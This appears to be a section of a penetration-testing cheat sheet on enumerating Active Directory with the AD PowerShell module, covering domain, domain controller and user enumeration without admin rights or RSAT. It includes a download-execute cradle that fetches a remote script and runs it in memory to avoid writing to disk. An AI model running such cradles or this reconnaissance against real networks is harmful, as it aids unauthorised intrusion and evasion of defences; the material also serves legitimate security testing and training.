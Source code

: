 ### ActiveDirectory (AD) Module

- ActiveDirectory (AD) Module links

https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps
https://github.com/samratashok/ADModule

*You can copy this DLL to your machine and use it to enumerate Active Directory without installing RSAT and without having administrative privileges. To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.*

```
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
PS C:\> Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
```

*You can also use the Import-ActiveDirectory.ps1 to load the script using download-execute cradles and without writing the DLL to disk:*

```
PS C:\> iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

- Enumerate current domain

```
PS C:\> Get-ADDomain
PS C:\> Get-ADDomain -Identity <Domain Name>        # Enumerate another domain
```

- Enumerate domain SID

```
PS C:\> (Get-ADDomain).DomainSID
```

- Enumerate domain controllers

```
PS C:\> Get-ADDomainController
PS C:\> Get-ADDomainController -DomainName <Domain Name> -Discover        # Enumerate another domain
```

- Enumerate users

```
PS C:\> Get-ADUser -Filter *
PS C:\> Get-ADUser -Filter * -Properties *
PS C:\> Get-ADUser -Filter * -Properties * | select Name
PS C:\> Get-ADUser -Identity <username> -Properties *
PS C:\> Get-ADUser -Server <Domain Controller>
```

- Enumerate list of all properties for users

```
PS C:\> Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name
PS C:\> Get-ADUser -Filter * -Properties * | select name,@{expression={[datetime]::fromFileTime($_.pwdlastset)}}
```
